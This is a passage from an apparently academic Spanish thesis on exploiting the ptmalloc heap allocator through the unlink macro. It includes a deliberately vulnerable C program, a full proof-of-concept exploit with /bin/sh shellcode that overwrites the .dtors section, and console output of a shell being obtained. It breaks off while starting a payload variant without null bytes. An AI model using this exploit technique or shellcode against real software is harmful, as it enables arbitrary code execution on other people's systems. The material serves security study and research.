Entonces, �cu�l es el vector de ataque? El vector de ataque del que se aprovecha esta t�cnica es la escritura en memoria que se realiza en la l�nea 3. \\
Realizando una construcci�n l�gica hacia atr�s se analiza dicha escritura. Lo primero es que lo que se escribe en memoria es |BK|, que no es m�s que el contenido de la direcci�n de memoria de *p + 12, que haci�ndolo aun m�s abstracto es el contenido del campo |bk| del fragmento de memoria que se pasa a \textit{unlink}, o sea, el contenido de |p->bk|. \\
Lo siguiente a analizar es d�nde se escribe. B�sicamente, se escribe en la direcci�n de memoria m�s 12 ubicada en |FD| que es *p + 8 y, de nuevo, haci�ndolo m�s abstracto, es el contenido del campo |fd| del fragmento de memoria que se le pasa a \textit{unlink}, o sea, |p->fd|. \bigskip

Resumiendo: 
\begin{itemize}
\item Qu� se escribe en memoria? $\longrightarrow$ El contenido de |p->bk|
\item En qu� direcci�n de memoria se escribe? $\longrightarrow$ En la direcci�n contenida en |p->fd| + 12 bytes.
\end{itemize}
\paragraph*{}\label{ref:first_question}
Llegados a este punto uno debe plantearse dos cosas. La primera de ellas es si, como usuario de la librer�a, es posible controlar el contenido de los campos |bk| y |fd| de un framento de memoria libre. La segunda es si, de ser posible lo anterior, cuales ser�an las repercusiones.\\
A la primera pregunta se le dar� respuesta en los pr�ximos apartados, sin embargo, se avanza al lector que, cumpli�ndose ciertos requisitos, s� es posible controlar el valor de dichos campos. \\
En cuanto a la segunda cuesti�n, las repercusiones dependen de las posibilidades. Es de sobra conocido que si un \textit{hacker} tiene la posibilidad de escribir 4 bytes en cualquier direcci�n de memoria, ser� capaz de ejecutar c�digo arbitrario\footnote{Dadas las condiciones de sistema que se especifican en esta investigaci�n.}. Lo que como repercusi�n, es una consecuencia nefasta para el sistema afectado. \\
Si el lector no conoce las t�cnicas por las cuales se puede conseguir la ejecuci�n de c�digo arbitrario a partir de la escritura de 4 bytes en cierta direcci�n de memoria, se le encomienda leer el Ap�ndice \ref{ap:II}.

\pagebreak

\subsection{Explotaci�n pr�ctica}

En este apartado se tratar� la metodolog�a para conseguir escribir 4 bytes en cualquier direcci�n de memoria, lo que, eventualmente, desembocar� en la ejecuci�n de c�digo arbitrario tal y como se muestra en el Ap�ndice \ref{ap:II}, mediante la sobrescritura de la secci�n .dtors. \bigskip

El C�digo \ref{code:vulnerable_code} muestra el c�digo vulnerable mediante el cual es posible controlar el contenido de los campos |bk| y |fd| de un fragmento de memoria libre, tal y como se planteaba en la p�gina \pageref{ref:first_question}. \bigskip

\lstset{language=C, caption=C�digo vulnerable , label=code:vulnerable_code}
\begin{lstlisting}
#include <stdlib.h>
#include <string.h>

int main (int argc, char ** argv) {

        if (argc < 2)
                return -1;

        char * ptr_1 = (char *) malloc (512);
        char * ptr_2 = (char *) malloc (512);

        memcpy(ptr_1, argv[1], strlen(argv[1]));

        free(ptr_1);
        free(ptr_2);

        return 0;
}
\end{lstlisting}

Con las l�neas 5 y 6 se crean dos b�fers de datos de un tama�o de 512 bytes. Estos b�fers se almacenar�n en el \textit{heap} debido a que se piden al sistema mediante la funci�n |malloc()|.\\
A continuaci�n, en la l�nea 8 los datos que se pasan como argumento al programa se copian en el b�fer |ptr_1|. La vulnerabilidad viene dada por el hecho de que si el tama�o del argumento pasado al programa es mayor a 512 bytes, se producir� un \textit{overflow} o desbordamiento del b�fer, con lo que posiblemente se sobrescribir�n otros b�fers almacenados en el \textit{heap} o datos de control utilizados por el algoritmo de gesti�n de memoria din�mica. \\
As� pues, el requisito para poder sobrescribir el valor de los campos |bk| y |fd| pasa por que el desarrollador cometa un error que desemboque en un desbordamiento de b�fer. \bigskip

Una vez se haya desbordado el b�fer y se hayan sobrescrito ciertos datos, se ejecutar� la macro \textit{unlink} mediante la liberaci�n de dichos b�fers - l�neas 10 y 11 - y se conseguir� la ejecuci�n de c�digo arbitrario.

\subsubsection{Construcci�n del payload}

El \textit{payload} es el conjunto de datos o bytes con el cual ser� posible vulnerar el algoritmo \textit{ptmalloc}. Este \textit{payload} se almacenar� en el primer b�fer, |ptr_1|, y debido a que su tama�o ser� mayor a 512 bytes, sobrescribir� la regi�n de memoria donde se ubica el segundo b�fer, |ptr_2|. Evidentemente, se supone que |ptr_1| y |ptr_2| se almacenan de manera contigua en memoria y dado que en el C�digo \ref{code:vulnerable_code} se pide espacio para |ptr_1| y acto seguido para |ptr_2| sin que haya ninguna otra petici�n de espacio de por medio, ni ning�n fragmento de memoria libre disponible, los dos b�fers se almacenar�n de modo adyacente.

\begin{center}
\fbox{
\begin{minipage}[b][\height]{0.95\textwidth}
La idea en la que se basa la explotaci�n de esta vulnerabilidad pasa por hacer creer al algoritmo que el primer b�fer a liberar es adyacente a otro fragmento de memoria libre. Si esto es as�, la macro \textit{unlink} se ejecutar� con lo que ser� posible escribir 4 bytes en cualquier regi�n de memoria.
\end{minipage}
}
\end{center}

La parte vulnerable del c�digo fuente es la que se representa en el C�digo \ref{code:ptmalloc_vulnerable} \bigskip

\lstset{language=C, caption=C�digo \textit{ptmalloc} vulnerable , label=code:ptmalloc_vulnerable}
\begin{lstlisting}
(...)

else if (!chunk_is_mmapped(p)) {
      nextchunk = chunk_at_offset(p, size);
      nextsize = chunksize(nextchunk);
      assert(nextsize > 0);

      /* consolidate backward */
      if (!prev_inuse(p)) {
        prevsize = p->prev_size;
        size += prevsize;
        p = chunk_at_offset(p, -((long) prevsize));
        unlink(p, bck, fwd);
      }

      if (nextchunk != av->top) {
        /* get and clear inuse bit */
        nextinuse = inuse_bit_at_offset(nextchunk, nextsize);

        /* consolidate forward */
        if (!nextinuse) {
          unlink(nextchunk, bck, fwd);
          size += nextsize;
        } else
          clear_inuse_bit_at_offset(nextchunk, 0);
(...)
\end{lstlisting}

Aclarar que para que el C�digo \ref{code:ptmalloc_vulnerable} se ejecute, se debe ejecutar la funci�n |free()| del programa vulnerable. Todo el razonamiento seguido a continuaci�n, se basa en que se ejecuta la funci�n |free()| sobre el primer b�fer, |ptr_1|. \bigskip

Tal y como se ha comentado, se debe enga�ar al algoritmo para que entre en la condici�n de la l�nea 21 aun cuando el siguiente fragmento de memoria al que se est� liberando est� en uso. Para enga�ar al algoritmo, se debe estudiar c�mo se decide si el siguiente fragmento de memoria libre al que se est� liberando est� libre o, en caso contrario, est� en uso. \\
La macro que se encarga de definir si un fragmento de memoria est� en uso o est� libre es la siguiente: \bigskip

\lstset{language=C, caption=Macro inuse\_bit\_at\_offset() , label=code:inuse_bit_at_offset_macro}
\begin{lstlisting}
#define inuse_bit_at_offset(p, s)\
 (((mchunkptr)(((char*)(p)) + (s)))->size & PREV_INUSE)
\end{lstlisting}

A la macro |inuse_bit_at_offset| se le pasa un puntero |p|. A este puntero se le a�ade un offset |s|. Despu�s de realizar esta acci�n, la direcci�n de memoria |p+s| debe coincidir con un fragmento de memoria. Se obtiene el campo |size| de dicho fragmento y se le realiza una |and| l�gica con el valor |PREV_INUSE| que es 1. Con lo que si el �ltimo bit del campo |size| de un fragmento de memoria es 1, el fragmento de memoria est� en uso, si es 0, el fragmento est� libre. \\
Volviendo al C�digo \ref{code:ptmalloc_vulnerable}, en la l�nea 18 se ejecuta la macro |inuse_bit_at_offset|, sin embargo como par�metros se le pasan las variables |nextchunk| y |nextsize|. Dichas variables se inicializan en las l�neas 4 y 5 respectivamente. \\
La macro |chunk_at_offset()| est� definida del siguiente modo: \bigskip

\lstset{language=C, caption=Macro chunk\_at\_offset() , label=code:chunk_at_offset_macro}
\begin{lstlisting}
/* Treat space at ptr + offset as a chunk */
#define chunk_at_offset(p, s)  ((mchunkptr)(((char*)(p)) + (s)))
\end{lstlisting}

Con lo que si a la macro se le pasa el puntero |p|, que apunta al primer fragmento a liberar y un tama�o |size| que es el tama�o del propio fragmento a liberar, devolver� un puntero al siguiente fragmento en memoria contiguo al que se va a liberar. En el caso de estudio, si |p| apunta al fragmento de memoria que almacena los datos de |ptr_1|, el siguiente fragmento de memoria es |ptr_2|. De este modo se obtiene la variable |nextchunk| en la l�nea 4 del C�digo \ref{code:ptmalloc_vulnerable}. \\
Por otro lado, la variable |nextsize| se inicializa a partir de la macro |chunksize()| a la que se le pasa como par�metro la variable |nextchunk|. Dicha macro definida en el C�digo \ref{code:chunksize_macro} obtiene el campo |size| del fragmento de memoria que se le pasa. Evidentemente, al campo |size| se le eliminan los 3 bits de menor peso que sirven como metadatos. En el caso de estudio, se obtiene el tama�o del siguiente fragmento de memoria al fragmento a liberar, o sea, el fragmento de memoria que contiene los datos de |ptr_2|.\bigskip

\lstset{language=C, caption=Macro chunksize() , label=code:chunksize_macro}
\begin{lstlisting}
/* Get size, ignoring use bits */
#define chunksize(p)         ((p)->size & ~(SIZE_BITS))
\end{lstlisting}

Se ha seguido todo este razonamiento para que el lector no tenga que creer ciegamente lo que aqu� est� escrito, sino que pueda comprobar el razonamiento a partir del c�digo expuesto. \\
La primera conclusi�n a la que se llega pues, es que el campo |size| del fragmento de memoria contiguo al fragmento de memoria que se esta liberando debe tener el bit menos significativo a 0, de este modo se entrar� a la condici�n de la l�nea 21 del C�digo \ref{code:ptmalloc_vulnerable}. \bigskip

�Pero c�mo se puede conseguir esto? A trav�s del desbordamiento del que se ha hablado anteriormente. Si el b�fer |ptr_1| tiene un tama�o de 512 bytes, si en �l se escriben m�s de esos bytes, los datos acabar�n sobreescribiendo el b�fer |ptr_2| y a partir de esto y partiendo de la base de que los datos del primer b�fer los puede controlar el usuario, es posible escribir en el campo |size| un valor que contenga su bit de menor peso a 0, con lo que se ejecute la macro \textit{unlink} de la l�nea 22 del C�digo \ref{code:ptmalloc_vulnerable}. \bigskip

Con lo visto hasta el momento, se obtiene que el \textit{payload} est� definido como en la Figura \ref{fig:payload_1}. Tal y como se puede ver, lo �nico que hay establecido es que el bit menos significativo del campo |size| del segundo fragmento de memoria debe ser 0. Cabe destacar que los campos |prev_size| y |size| del primer fragmento no se pueden controlar ya que no hay modo de sobrescribirlos. \bigskip

\begin{figure}[!htbp]  
    \centering
    
\includegraphics[scale=.85]{./Chapters/HeapExploiting/Unlink/payload/img/payload_1.eps}   
    \caption{Payload con el campo size a medio definir}
    \label{fig:payload_1}
\end{figure}

Con los datos expuestos en los par�grafos anteriores, se ha conseguido ejecutar la macro \textit{unlink} al ejecutar el primer |free()|. Ahora falta modificar el \textit{payload} para que al ejecutar \textit{unlink}, se escriban los bytes en las direcciones apropiadas de memoria tal y como se explica en el apartado \ref{sec:attack_vector}. \bigskip

El primer dato necesario es la direcci�n del inicio de la secci�n .dtors m�s 4 bytes. De este modo se sobrescribir� la direcci�n del destructor existente en el \textit{exploit}. Todos estos conceptos est�n detallados en el Ap�ndice \ref{ap:II}. Se obtiene pues, que la direcci�n que se busca es 0x08049f1c.\\ 
A esta direcci�n se le han de restar 12 bytes, tal y como se explica en la p�gina \pageref{ref:first_question}, con lo que la direcci�n que se utilizar� finalmente es 0x08049f10. Esta direcci�n debe ser la que se almacene en el campo |fd| del fragmento de memoria que se sobreescribe, o sea |ptr_2|. \bigskip

Por otro lado, se necesita la direcci�n del \textit{shellcode} que se utilizar� a modo de ejecuci�n de c�digo arbitrario. Debido a las m�ltiples protecciones de memoria que existen hoy en d�a, alojar el \textit{shellcode} en una direcci�n de memoria que sea ejecutable no es trivial. Por esta raz�n se utiliza la estrategia planteada en el C�digo \ref{code:chellcode_stratego}. \bigskip

\lstset{language=C, caption=Estrategia para ejecutar el shellcode , label=code:chellcode_stratego}
\begin{lstlisting}
        char shellcode[] = "El shellcode va aqui."

        /* Se obtiene el tamano de las paginas del sistema */
        int pagesize = sysconf(_SC_PAGE_SIZE);
        if ( pagesize == -1) {
                perror("[-] Page size could not be obtained");
                exit(EXIT_FAILURE);
        }
        /* Se obtiene una region de memoria alineada para poder protegerla con mprotect */
        void * real_shell;
        if ( posix_memalign(&real_shell, pagesize, sizeof(shellcode)) ) {
                perror("[+] Aligned memory could not be obtained");
                exit(EXIT_FAILURE);
        }
        /* Se copia el shellcode en la region de memoria ejecutable obtenida con memalign */
        memcpy(real_shell, shellcode, sizeof(shellcode));
        /* Making  shellcode location executable */
        /* Se hace ejecutable la seccion de memoria donde se ubica el shellcode */
        mprotect(real_shell, pagesize, PROT_WRITE | PROT_EXEC);
\end{lstlisting}

La estrategia es la misma que la utilizada para sobrescribir la secci�n .dtors y est� ampliamente explicada en el Ap�ndice \ref{ap:II}, as� que no se entrar� en detalles. \\
Gracias al c�digo, se conoce la direcci�n del \textit{shellcode}, v�a el puntero |real_shell|. La direcci�n donde apunta la variable |real_shell| es lo que ha de contener el campo |bk| del fragmento de memoria que se sobreescribe, o sea, |ptr_2|. \bigskip

De este modo el \textit{payload} queda representado por la Figura \ref{fig:payload_2}. \bigskip

\begin{figure}[!htbp]  
    \centering
    
\includegraphics[scale=.85]{./Chapters/HeapExploiting/Unlink/payload/img/payload_2.eps}   
    \caption{Payload con el campo fd y bk definido}
    \label{fig:payload_2}
\end{figure}

Como se puede ver, el campo |fd| contiene la direcci�n de la secci�n .dtors m�s 4 bytes, menos los 12 bytes justificados en la secci�n \ref{sec:attack_vector}. Por otro lado, el campo |bk| contiene la direcci�n del \textit{shellcode}. \bigskip

Partiendo de la base que el �ltimo dato que queda por concretar es el campo |size| del segundo fragmento y que dicho campo, en el primer |free()| no afecta para nada en la l�gica de ejecuci�n del algoritmo, (dejando a parte el tema ya tratado sobre el bit de menos peso y la ejecuci�n de \textit{unlink}) uno se puede aventurar y ponerle cualquier valor. As� pues, el \textit{payload} final, a falta de saber si funcionar�a con el segundo |free()|, es el retratado en la Figura \ref{fig:payload_3}. \bigskip

\begin{figure}[!htbp]  
    \centering
    
\includegraphics[scale=.85]{./Chapters/HeapExploiting/Unlink/payload/img/payload_3.eps}   
    \caption{Payload final}
    \label{fig:payload_3}
\end{figure}

Como se puede ver, el campo |size| ahora contiene un 0. Evidentemente, el bit menos significativo del valor 0, es 0 con lo que la macro \textit{unlink} se ejecutar� entrando en la condici�n de la l�nea 21 del C�digo \ref{code:ptmalloc_vulnerable} tal y como ya se ha explicado. \bigskip

\pagebreak

\subsubsection{Construcci�n de la prueba de concepto}
\label{sec:const_pof}

Ahora que parece que el \textit{payload} parece funcional siempre y cuando s�lo se ejecute el primer |free()|\footnote{Las consecuencias del segundo free() con el payload actual aun no han sido estudiadas.}, el C�digo \ref{code:ptmalloc_exploit_1} muestra una prueba de concepto con todos los aspectos detallados en los apartados anteriores. \bigskip

\lstset{language=C, caption=Exploit para el algoritmo ptmalloc , label=code:ptmalloc_exploit_1}
\begin{lstlisting}
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <unistd.h>

#define PAYLOAD_SIZE	531

void world_destruction() __attribute__((destructor));
void build_payload (char *, void *);

char shellcode[]= 	/* jmp 12 + 12 nops */
			"\xeb\x0a\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
			/* shellcode by vlan7 and sch3m4 */
			"\x31\xdb\x8d\x43\x17\x99\xcd\x80\x31\xc9"
			"\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62"
			"\x69\x8d\x41\x0b\x89\xe3\xcd\x80";

int main(int argc, char ** argv) {
	
	int status;
	char crafted_data[700] = {0};
	
	
	/* Obtain the page size of the system */
	int pagesize = sysconf(_SC_PAGE_SIZE);
	if ( pagesize == -1) {
		perror("[-] Page size could not be obtained");
		exit(EXIT_FAILURE);
	}
	/* Obtain an aligned memory region in order to mprotect it */
	void * real_shell;
	if ( posix_memalign(&real_shell, pagesize, sizeof(shellcode)) ) {
		perror("[+] Aligned memory could not be obtained");
		exit(EXIT_FAILURE);
	}
	/* Copy the shellcode to the executable region obtained with memalign */
	memcpy(real_shell, shellcode, sizeof(shellcode));
	/* Making  shellcode location executable */
	mprotect(real_shell, pagesize, PROT_WRITE | PROT_EXEC);
	/* Making DTORS section writable */
	mprotect((void*)0x8049000, pagesize, PROT_WRITE);
	/* The payload is built */
	build_payload(crafted_data, real_shell);

	
	char * ptr_1 = (char *) malloc (512);
	char * ptr_2 = (char *) malloc (512);

	memcpy(ptr_1, crafted_data, PAYLOAD_SIZE);

	free(ptr_1);
	//free(ptr_2);	
	
	return 0;
}

void build_payload(char * crafted_data, void * sc_addr) {

	char str_dtor_ptr[5] = {0};
	char * seek = crafted_data;
	
	/* Trash */
	memset(seek, 'A', 516); 
	seek += 516;
	/* size of second freed chunk. 0 value */
	memcpy(seek, "\x00\x00\x00\x00", 4);
	seek += 4;
	/* fd of second freed chunk. dtors_end - 12 */
	memcpy(str_dtor_ptr, "\x10\x9f\x04\x08", 4);
	memcpy(seek, str_dtor_ptr, 4);
	seek += 4;
	/* bk of second freed chunk. Shellcode address */	
	memcpy(seek, &sc_addr, 4);
	seek += 4;
}

void world_destruction() {}
\end{lstlisting}

El c�digo fuente est� formado por tres funciones. La primera es el |main()|, que es la funci�n principal. La funci�n |world_destruction()| es el destructor necesario para que el \textit{shellcode} se ejecute una vez se sobrescriba la secci�n .dtors, tal y como se ha detallado en el Ap�ndice \ref{ap:II}. Por �ltimo, la funci�n |build_payload()| es la encargada de construir el \textit{payload} que se ha definido en el apartado anterior. \bigskip

El c�digo de la funci�n |main()| ya se ha comentado por separado en otros apartados. As� que no tiene sentido hacer hincapi�. \\
Por otro lado, en la funci�n |build_payload()| se puede ver como se contruye el \textit{payload} especificado anteriormente. Un dato a destacar es que todos los datos que se sobrescriben y que no son el campo |size|, |fd| o |bk| del segundo fragmento son irrelevantes. Por esta raz�n, en la l�nea 64 se escriben 516 bytes de basura. Estos bytes llenar�n el b�fer |ptr_1| y sobrescribir� el campo |prev_size| del segundo fragmento. En la l�nea 67 se escribe un 0 el campo |size| del segundo fragmento, en la l�nea 71 se escribe la direcci�n de la secci�n .dtors + 4 - 12\footnote{Destacar que los datos se deben escribir en little endian debido a la arquitectura sobre la que se trabaja} en el campo |fd| del segundo fragmento y en la l�nea 74 se escribe la direcci�n del \textit{shellcode} en el campo |bk|. \bigskip

Aun quedan por destacar tres detalles m�s. \\
El primero es que en la l�nea 53 el segundo |free()| est� comentado debido a que no se han estudiado cuales son sus repercusiones. Hasta el momento, s�lo se ha analizado la ejecuci�n del primer |free()| asegurando que si la macro \textit{unlink} se ejecuta y los punteros |bk| y |fd| contienen los datos explicados, se conseguir� la ejecuci�n de c�digo arbitrario.\\
El segundo detalle es que el \textit{shellcode} tiene una particularidad especial. Tal y como se coment� en el cap�tulo \ref{ref:shellcode_overwrite} en la p�gina \pageref{ref:shellcode_overwrite}, la cuarta operaci�n de la macro \textit{unlink} acabar� sobrescribiendo el octavo byte del \textit{shellcode} con el contenido de |fd|. As� que para que no se sobrescriba el \textit{shellcode}, la primera operaci�n del mismo, l�nea 13, ser� un |jmp 12| seguida de 10 bytes de basura, o sea, un total de 12 bytes. De este modo, el flujo de ejecuci�n del \textit{shellcode} se saltar� los bytes sobrescritos por la �ltima instrucci�n de la macro \textit{unlink} y ejecutar� el \textit{shellcode} de manera correcta.\\
Por �ltimo, y este detalle se debe tener muy en cuenta, el c�digo vulnerable ha sido modificado de tal manera que los datos a copiar en la l�nea 50 por la funci�n |memcpy| ya no vienen dados por la funci�n |strlen()| sino que vienen dados por un valor fijo definido como |PAYLOAD_SIZE|. Esto es muy importante ya que la funci�n |strlen()| deja de contar bytes cuando se encuentra con un byte nulo. En el \textit{payload} que se ha detallado, la funci�n |strlen()| dejar�a de contar bytes antes de sobrescribir el campo |size| del segundo fragmento ya que en el mismo campo |size| se estar�an copiando varios bytes nulos. \bigskip

A continuaci�n se muestra lo que ocurre al compilar y ejecutar el C�digo \ref{code:ptmalloc_exploit_1}.\bigskip

\begin{listing}[style=consola, caption=Ejecuci�n de la prueba de concepto con un solo free(), label=out:pof_1]
newlog@ubuntu:~/Documents/TFM/Heap/heap_exploiting/codes/unlink/ptmalloc2_test$ gcc pof.c -o pof -g
newlog@ubuntu:~/Documents/TFM/Heap/heap_exploiting/codes/unlink/ptmalloc2_test$ ./pof 
$ id
uid=1000(newlog) gid=1000(newlog) groups=1000(newlog),4(adm),20(dialout),24(cdrom),46(plugdev),111(lpadmin),119(admin),122(sambashare)
$ exit
newlog@ubuntu:~/Documents/TFM/Heap/heap_exploiting/codes/unlink/ptmalloc2_test$ 
\end{listing}

Tal y como se puede ver, se ejecuta el \textit{shellcode} lo que brinda al usuario una l�nea de comandos para ejecutar lo que desee. \bigskip

Finalmente, lo �nico que queda por dilucidar es si descomentando el seguno |free()| el \textit{shellcode} sigue ejecut�ndose. El C�digo \ref{out:pof_2} muestra el cambio a realizar y la ejecuci�n de la nueva prueba de concepto. \bigskip

\begin{listing}[style=consola, caption=Ejecuci�n de la prueba de concepto con los dos free(), label=out:pof_2]
newlog@ubuntu:~/Documents/TFM/Heap/heap_exploiting/codes/unlink/ptmalloc2_test$ sed 's/\/\/free/free/gi' pof.c >> pof2.c
newlog@ubuntu:~/Documents/TFM/Heap/heap_exploiting/codes/unlink/ptmalloc2_test$ gcc pof2.c -o pof2
newlog@ubuntu:~/Documents/TFM/Heap/heap_exploiting/codes/unlink/ptmalloc2_test$ ./pof2 
$ id
uid=1000(newlog) gid=1000(newlog) groups=1000(newlog),4(adm),20(dialout),24(cdrom),46(plugdev),111(lpadmin),119(admin),122(sambashare)
$ exit
newlog@ubuntu:~/Documents/TFM/Heap/heap_exploiting/codes/unlink/ptmalloc2_test$ 
\end{listing}

Con ''|sed 's/\/\/free/free/gi' pof.c >> pof2.c|'' se crea el archivo pof2.c que ser� igual al archivo pof.c pero la l�nea con el free() comentado se descomentar�. A continuaci�n se compila y ejecuta obteniendo el mismo resultado que en la prueba de concepto anterior. \bigskip

Lo que ocurre cuando se ejecuta el segundo |free()| es que el flujo de ejecuci�n entra en la condici�n de la l�nea 4217 del archivo malloc.c. Con dicha condici�n el algoritmo descubre si el fragmento a liberar cumple las condiciones para almacenarse en un \textit{fastbin}. Debido a que el tama�o del fragmento a liberar es 0 al haber sobrescrito el campo |size|, el fragmento cumple las condiciones y por tanto se almacena como si fuera un \textit{fastbin}. \\
As� pues, si el flujo de ejecuci�n sigue el camino de los \textit{fastbins}, no se encuentra ning�n problema y la prueba de concepto funciona correctamente.

\pagebreak

\subsubsection{Construcci�n del payload sin bytes nulos}

En el apartado anterior se ha construido una prueba de concepto de un modo innovador de manera que en ning�n otro art�culo escrito sobre el tema lo hab�a publicado. Los art�culos que tratan esta materia tales como \cite{VAOSBTEMP}, \cite{WSTAE-Pages169-181} o \cite{HOELI} utilizan la t�cnica que se explicar� a continuaci�n, sin embargo, todos esas publicaciones est�n obsoletas de modo que ninguna de ellas funciona contra el algoritmo \textit{ptmalloc} tal y como est� a d�a de hoy. \\
Todos los art�culos citados est�n basados en el art�culo pionero en la materia \cite{VAOSBTEMP}, sin embargo, con los datos proporcionados por dicho art�culo es imposible llevar a cabo la explotaci�n del algoritmo. \bigskip

En este cap�tulo se muestra una revisi�n de la t�cnica presentada en \cite{VAOSBTEMP} de modo que la explotaci�n del algoritmo sea completamente funcional. \bigskip

Sin embargo, la pregunta m�s evidente es �porqu� revisar la t�cnica de MaXX si con la t�cnica mostrada anteriormente ya se cumpl�an los objetivos? B�sicamente por que con la t�cnica de MaXX es posible evitar el uso de bytes nulos. La problem�tica que introducen los bytes nulos est� ampliamente detallada en \cite{IALEDSESL}, pero en pocas palabras se puede definir que el uso de bytes nulos hace que la copia de bytes en los b�fers termine abruptamente si dicha copia se realiza con funciones enfocadas al tratamiento de cadenas tales como |strcpy()|, |strlen()|, etc. \bigskip

La t�cnica utilizada en este apartado es parecida a la t�cnica detallada en el cap�tulo anterior. Se volver� a sobrescribir la secci�n .dtors con la direcci�n del \textit{shellcode} que se ejecutar�. Sin embargo, esta vez el \textit{payload} ser� diferente. \\
Tal y como ya se ha visto, en el algoritmo \textit{ptmalloc} para descubrir si los fragmentos est�n en uso se utiliza el campo |size| del propio fragmento, pero otra cosa muy importante es el hecho de que para conocer d�nde empiezan los fragmentos de memoria tambi�n se utiliza el campo |size|. Por ejemplo, si se obtiene un fragmento de memoria |p|, el siguiente fragmento de memoria se ubicar� en la direcci�n |p+size|, donde |size| es el tama�o del fragmento |p|.\\
De este modo, si se sobrescribe el campo |size| del segundo fragmento de memoria se puede enga�ar al algoritmo de tal modo que crea que un fragmento est� situado en una direcci�n de memoria en la que se pueda escribir, con el objetivo de crear un fragmento de memoria falso con el que se ejecute la macro \textit{unlink}. \bigskip

En la Figura \ref{fig:payload_sin_nulls} se muestra el \textit{payload} final. Como se puede ver, el \textit{payload} es mucho m�s complejo pero a continuaci�n se detalla el por qu� de cada uno de los par�metros que lo definen. \bigskip

\begin{figure}[!htbp]  
    \centering
    
\includegraphics[scale=.85]{./Chapters/HeapExploiting/Unlink/payload/img/payload_sin_nulls.eps}   
    \caption{Payload sin null bytes}
    \label{fig:payload_sin_nulls}
\end{figure}

Empezando de atr�s en adelante, la explicaci�n es mucho m�s intuitiva, as� que se desarrollar� de este modo. \\
El primer valor fuera de lo com�n en el \textit{payload} es el -16\footnote{En realidad, el valor en complemento a 2 es un -15, sin embargo, cuando se eliminen los 3 bits de menor peso para obtener el tama�o del fragmento se obtendr� un -16.}. Aqu� es donde entra en juego la tem�tica del null byte. Lo primero a entender es que con este -16 se hace creer al algoritmo que el siguiente fragmento de memoria se encuentra donde empieza el fragmento 2 ''m�s'' -16 bytes. Evidentemente se podr�a haber utilizado un valor positivo y construir el fragmento de memoria falso 16 bytes por encima del fragmento 2, sin embargo, utilizando un valor negativo se evita la introducci�n de null bytes.\\
